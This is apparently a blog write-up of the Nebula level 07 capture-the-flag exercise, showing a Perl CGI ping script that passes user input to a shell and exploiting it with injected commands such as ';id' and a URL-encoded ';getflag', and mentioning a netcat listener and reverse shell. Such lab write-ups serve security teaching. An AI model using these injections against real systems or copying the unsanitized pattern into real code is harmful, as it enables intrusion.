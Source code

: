 ```yaml
---
layout: default
title: "Nebula07"
tags: Nebula
description: "Exploiting a command injection in the Perl web server"
---
```



## Level 07

> The `flag07` user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server. To do this level, log in as the `level07` account with the password `level07`. Files for this level can be found in `/home/flag07`.

## Source code

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```
## Getting the flag

This is a common codebase vulnerable to command injection. Calling a system function and translating user input as an argument without any sanitization generally is not so great idea. In a case like that and attacker could try to "pipe" the other commands to the execution with the `;` symbol.  The `;` is using to drop the argument and execute the next command right after it, something like `<command1>`;`<command2>`.  
Let's try to exploit this particular example!  
There are two files in the `flag07` directory:
```
level07@nebula:/home/flag07$ ls
index.cgi  thttpd.conf
```

The `index.cgi` is a program the with the source code we just reviewed. Let's try to execute it in a proper flow:

```
evel07@nebula:/home/flag07$ ./index.cgi Host=localhost
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_req=1 ttl=64 time=0.022 ms
64 bytes from localhost (127.0.0.1): icmp_req=2 ttl=64 time=0.043 ms
64 bytes from localhost (127.0.0.1): icmp_req=3 ttl=64 time=0.042 ms

--- localhost ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 0.022/0.035/0.043/0.011 ms
```

And as we already feagured out the injection point, let's try it out too:

```
level07@nebula:/home/flag07$ ./index.cgi Host=;id
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
</pre></body></html>uid=1008(level07) gid=1008(level07) groups=1008(level07)
```

So we have a command injection. We can't grab the flag from that point, as we will get the `getflag is executing on a non-flag account, this doesn't count` message. Instead, let's check the other file in the folder:
```
level07@nebula:/home/flag07$ cat thttpd.conf 
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007

# Specifies a directory to chdir() to at startup. This is merely a convenience -
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07

# Do a chroot() at initialization time, restricting file access to the program's
# current directory. If chroot is the compiled-in default (not the case on
# Debian), then nochroot disables it. See thttpd(8) for details.
nochroot
#chroot

# Specifies a directory to chdir() to after chrooting. If you're not chrooting,
# you might as well do a single chdir() with the dir option. If you are
# chrooting, this lets you put the web files in a subdirectory of the chroot
# tree, instead of in the top level mixed in with the chroot files.
#data_dir=

# Don't do explicit symbolic link checking. Normally, thttpd explicitly expands
# any symbolic links in filenames, to check that the resulting path stays within
# the original document tree. If you want to turn off this check and save some
# CPU time, you can use the nosymlinks option, however this is not
# recommended. Note, though, that if you are using the chroot option, the
# symlink checking is unnecessary and is turned off, so the safe way to save
# those CPU cycles is to use chroot.
#symlinks
#nosymlinks

# Do el-cheapo virtual hosting. If vhost is the compiled-in default (not the
# case on Debian), then novhost disables it. See thttpd(8) for details.
#vhost
#novhost

# Use a global passwd file. This means that every file in the entire document
# tree is protected by the single .htpasswd file at the top of the tree.
# Otherwise the semantics of the .htpasswd file are the same. If this option is
# set but there is no .htpasswd file in the top-level directory, then thttpd
# proceeds as if the option was not set - first looking for a local .htpasswd
# file, and if that doesn't exist either then serving the file without any
# password. If globalpasswd is the compiled-in default (not the case on Debian),
# then noglobalpasswd disables it.
#globalpasswd
#noglobalpasswd

# Specifies what user to switch to after initialization when started as root.
user=flag07

# Specifies a wildcard pattern for CGI programs, for instance "**.cgi" or
# "/cgi-bin/*". See thttpd(8) for details.
cgipat=**.cgi

# Specifies a file of throttle settings. See thttpd(8) for details.
#throttles=/etc/thttpd/throttle.conf

# Specifies a hostname to bind to, for multihoming. The default is to bind to
# all hostnames supported on the local machine. See thttpd(8) for details.
#host=

# Specifies a file for logging. If no logfile option is specified, thttpd logs
# via syslog(). If logfile=/dev/null is specified, thttpd doesn't log at all.
#logfile=/var/log/thttpd.log

# Specifies a file to write the process-id to. If no file is specified, no
# process-id is written. You can use this file to send signals to thttpd. See
# thttpd(8) for details.
#pidfile=

# Specifies the character set to use with text MIME types.
#charset=iso-8859-1

# Specifies a P3P server privacy header to be returned with all responses. See
# http://www.w3.org/P3P/ for details. Thttpd doesn't do anything at all with the
# string except put it in the P3P: response header.
#p3p=

# Specifies the number of seconds to be used in a "Cache-Control: max-age"
# header to be returned with all responses. An equivalent "Expires" header is
# also generated. The default is no Cache-Control or Expires headers, which is
# just fine for most sites.
#max_age=
```

Noticed anything useful? Yes, the user `flag07` is running the webserver on the port `7007` with the same vulnerable binary.  
There are a few avenues to get the flag here:
- Open your browser with something like `http://<ip_of_the_vm>:7007/index.cgi?Host=%3Bgetflag` 
- `nc -nlvp 9001` listener on the `level07` machine, and any reverse shell send as a command to the webserver
- `wget` of the `getflag` with the  URL specified above

Note: The `%3B` is the URL-encoded `;` symbol

## Other Nebula levels 
- [level00](https://hackish.space/Nebula-level00)
- [level01](https://hackish.space/Nebula-level01)
- [level02](https://hackish.space/Nebula-level02)
- [level03](https://hackish.space/Nebula-level03)
- [level04](https://hackish.space/Nebula-level04)
- [level05](https://hackish.space/Nebula-level05)
- [level06](https://hackish.space/Nebula-level06)
- [level07](https://hackish.space/Nebula-level07)
- [level08](https://hackish.space/Nebula-level08)
- [level09](https://hackish.space/Nebula-level09)
- [level10](https://hackish.space/Nebula-level10)
- [level11](https://hackish.space/Nebula-level11)
- [level12](https://hackish.space/Nebula-level12)
- [level13](https://hackish.space/Nebula-level13)
- [level14](https://hackish.space/Nebula-level14)
- [level15](https://hackish.space/Nebula-level15)
- [level16](https://hackish.space/Nebula-level16)
- [level17](https://hackish.space/Nebula-level17)
- [level18](https://hackish.space/Nebula-level18)
- [level19](https://hackish.space/Nebula-level19)